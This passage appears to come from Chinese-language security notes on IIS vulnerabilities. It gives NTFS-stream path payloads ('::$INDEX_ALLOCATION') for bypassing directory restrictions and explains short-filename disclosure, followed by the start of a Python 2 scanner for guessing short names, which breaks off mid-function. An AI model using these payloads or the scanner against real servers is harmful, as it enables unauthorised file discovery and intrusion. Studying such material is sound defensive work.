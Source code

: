 IIS6.0

将`::$INDEX_ALLOCATION`后缀添加到目录名称后，如`/admin::$INDEX_ALLOCATION/index.php`

IIS7.5

将`:$i30:$INDEX_ALLOCATION`后缀添加到目录名称后，如`/admin:$i30:$INDEX_ALLOCATION/index.asp`

# 短文件名泄露

影响版本：IIS5.0-IIS10.0

漏洞详情：Windows支持以8.3格式生成与MS-DOS兼容的（短）文件名，以允许基于MS-DOS或16位Windows的程序访问这些文件。基于Windows的IIS服务器默认根目录C:\inetpub\wwwroot下的网页脚本文件和目录符合一定条件时，会生成相应的短文件名。此时，攻击者利用HTTP的DEBUG、OPTIONS、GET、POST、HEAD、TRACE等方法携带波浪号，可以对IIS服务器短文件名进行暴力猜解，依据返回的页面信息和状态码来确认真实存在的文件名，从而获取服务器敏感信息。

检测脚本:

```python
import sys
import httplib
import urlparse
import threading
import Queue
import time


class Scanner():
    def __init__(self, target):
        self.target = target.lower()
        if not self.target.startswith('http'):
            self.target = 'http://%s' % self.target
        self.scheme, self.netloc, self.path, params, query, fragment = \
                     urlparse.urlparse(target)
        if self.path[-1:] != '/':    # ends with slash
            self.path += '/'
        self.alphanum = 'abcdefghijklmnopqrstuvwxyz0123456789_-'
        self.files = []
        self.dirs = []
        self.queue = Queue.Queue()
        self.lock = threading.Lock()
        self.threads = []
        self.request_method = ''
        self.msg_queue = Queue.Queue()
        self.STOP_ME = False
        threading.Thread(target=self._print).start()

    def _conn(self):
        try:
            if self.scheme == 'https':
                conn = httplib.HTTPSConnection(self.netloc)
            else:
                conn = httplib.HTTPConnection(self.netloc)
            return conn
        except Exception, e:
            print '[_conn.Exception]', e
            return None

    def _get_status(self, path):
        try:
            conn = self._conn()
            conn.request(self.request_method, path)
            status = conn.getresponse().status
            conn.close()
            return status
        except Exception, e:
```